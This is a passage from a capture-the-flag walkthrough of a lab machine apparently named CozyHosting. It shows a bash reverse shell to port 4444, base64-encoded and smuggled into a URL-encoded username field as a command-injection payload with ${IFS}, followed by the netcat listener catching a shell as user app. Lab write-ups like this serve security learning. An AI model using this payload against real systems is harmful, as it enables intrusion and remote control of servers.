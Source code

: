 For the payload, I want to send a bash shell to my IP at port 4444. To do that I need this command in base64 and then I replace it in the [ PAYLOAD ] placeholder above:

"bash -i >& /dev/tcp/10.10.14.83/4444 0>&1"

Plain text

We need to encode the payload to base64, and then the whole command in URL format:

-[Thu Feb 29-09:07:19]-[table@parrot]-

-[~]$ echo "bash -i >& /dev/tcp/10.10.14.83/4444 0>&1" | base64 -w 0

YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44My80NDQ0IDA+JjEK

Plain text

The base64 payload inserted into our command:

;echo${IFS}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44My80NDQ0IDA+JjEK"|base64${IFS}-d|bash;

Plain text

Full command payload, encoded into URL to insert in username:

%3Becho%24%7BIFS%7D%22YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC44My80NDQ0IDA%2BJjEK%22%7Cbase64%24%7BIFS%7D-d%7Cbash%3B

Plain text

After sending the payload, and having `netcat` listening on port 4444, we catch a reverse shell!

-[Thu Feb 29-09:37:07]-[table@parrot]-

-[~]$ nc -lnvp 4444

listening on [any] 4444 ...

connect to [10.10.14.83] from (UNKNOWN) [10.10.11.230] 54708

bash: cannot set terminal process group (1063): Inappropriate ioctl for device

bash: no job control in this shell

app@cozyhosting:/app$ id

uid=1001(app) gid=1001(app) groups=1001(app)

app@cozyhosting:/app$

Plain text

We find a `.jar` file in `/app`. We cannot view it remotely so I download it onto the remote host to view it:

-[Thu Feb 29-09:55:59]-[table@parrot]-

-[~]$ wget 10.10.11.230/app/cloudhosting-0.0.1.jar

--2024-02-29 09:56:43-- http://10.10.11.230/app/cloudhosting-0.0.1.jar

Connecting to 10.10.11.230:80... connected.

HTTP request sent, awaiting response... 301 Moved Permanently
